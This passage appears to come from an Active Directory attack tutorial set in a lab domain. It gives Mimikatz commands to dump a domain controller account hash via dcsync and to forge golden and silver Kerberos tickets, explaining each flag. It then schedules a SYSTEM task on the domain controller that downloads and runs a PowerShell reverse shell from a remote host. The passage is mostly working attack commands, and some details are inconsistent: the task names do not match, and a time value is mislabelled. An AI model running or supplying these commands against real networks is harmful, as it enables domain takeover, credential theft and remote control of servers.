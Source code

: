 ```powershell
whoami /all (of a domain user)
```

- Adversary Forge Golden ticket in a Domain as follows : 

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\enterprise-dc$"' 
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-yyyyyyyy-zzzzzzzzzz-xxxxxx /target:enterprise-dc.cyberwarfare.corp /service:cifs /rc4:<HASH> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### Command Explanation

| Command | Explanation |
| --- | --- |
| kerberos::golden | Module Name |
| /User:Administrator | Username for which the TGT is generated |
| /domain:cyberwarfare.corp | Current Domain Fully Qualified Domain Name |
| /sid:xxx | SID value of the domain |
| /target:enterprise-dc.cyberwarfare.corp | Target Server FQDN |
| /ptt | Injects the ticket in current session (memory) |
| /service:cifs | Service SPN name for which TGS would be created |
| /startoffset:0 | Set ticket time to the latest (current) |
| /endin:600 | 600 sec (10 minutes) by-default 10 Years |
| /renewmax:10080 | 7 Days (10080 sec) |

#### Command Execution using Silver Ticket

- Adversaries create a silver ticket for HOST service which allows them to schedule a malicious task on the target :

- Schedule and execute a task on Remote Server : 

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:cyberwarfare.corp /sid:S-1-5-21-xxxxxx-yyyy-zzzzz /target:exterprise-dc.cyberwarfare.corp /service:HOST /rc4:xxxxx /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
schtasks /create /S enterprise-dc.cyberwarfare.corp /SC Weekly /RU "NT Authority\SYSTEM" /TN “lateral" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://10.10.10.1:8000/Invoke-PowerShellTcp.ps1'')'"
schtasks /Run /S enterprise-dc.cyberwarfare.corp /TN "STCheck"
```